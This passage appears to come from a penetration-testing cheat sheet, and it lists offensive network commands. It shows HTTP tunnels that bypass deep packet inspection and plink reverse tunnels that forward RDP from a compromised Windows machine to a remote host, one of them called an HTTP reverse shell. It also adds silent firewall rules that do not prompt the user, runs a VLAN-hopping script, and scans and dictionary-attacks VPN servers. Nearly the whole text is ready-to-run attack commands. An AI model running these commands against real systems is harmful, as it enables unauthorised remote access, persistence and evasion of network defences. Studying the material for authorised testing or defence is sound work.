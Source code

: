 *   Traffic Encapsulation - Bypassing deep packet inspection

    *   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80` On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`
*   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network

    *   Tunnel on port 22

        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    *   Port 22 blocked? Try port 80? or 443?

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

*   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)

    *   Windows machine add required firewall rules without prompting the user

    *   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    *   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    *   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    *   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    *   Start the http tunnel client

        `httptunnel_client.exe`

    *   Create HTTP reverse shell by connecting to localhost port 3000

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

*   VLAN Hopping

    *   <div class="highlight highlight-source-shell">

        <pre>git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh</pre>

        </div>

*   VPN Hacking

    *   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`

    *   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    *   Use IKEForce to enumerate or dictionary attack VPN servers:

        `pip install pyip`
